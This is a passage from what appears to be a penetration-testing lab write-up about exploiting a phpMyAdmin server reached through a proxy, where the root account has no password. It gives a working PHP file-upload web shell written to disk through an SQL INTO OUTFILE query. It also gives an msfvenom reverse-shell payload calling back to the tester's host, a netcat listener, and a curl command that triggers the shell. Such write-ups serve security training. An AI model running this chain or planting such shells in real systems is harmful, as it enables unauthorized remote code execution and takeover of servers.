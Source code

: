 * Notice how I had to use the -proxy flag

## Exploitation

### Weak Password/Authentication

After bypassing the proxy, we are presented with a phpmyadmin login screen that can be found at:

<mark style="color:yellow;">http://192.168.75.189:8080/phpmyadmin/</mark>

* The credentials for root are null

### PHPMyAdmin

We see that we can create databases with our new permissions and in a HTB CTF, I was able to exploit a PHPMyAdmin server by placing a reverse shell into a table.&#x20;

Can we do the same here?

1. Create a new table
2. Select "SQL" on the bar at the top
3. Place the following into it

```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';

```

* There is now an uploaded in 192.168.75.189:8080/uploader.php

4\. Generate a payload with Msfvenom

```
msfvenom -p php/reverse_php LHOST=192.168.49.75 LPORT=443 -f raw -o shell.php
```

* The reverse shell will be saved as shell.php
* Upload the reverse shell into the uploader
* Start an rlwrap netcat listener

```
sudo rlwrap nc -lnvp 443
```

* Trigger the reverse shell

```
curl --proxy http://192.168.75.189:3128 -s http://192.168.75.189:8080/shell.php
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

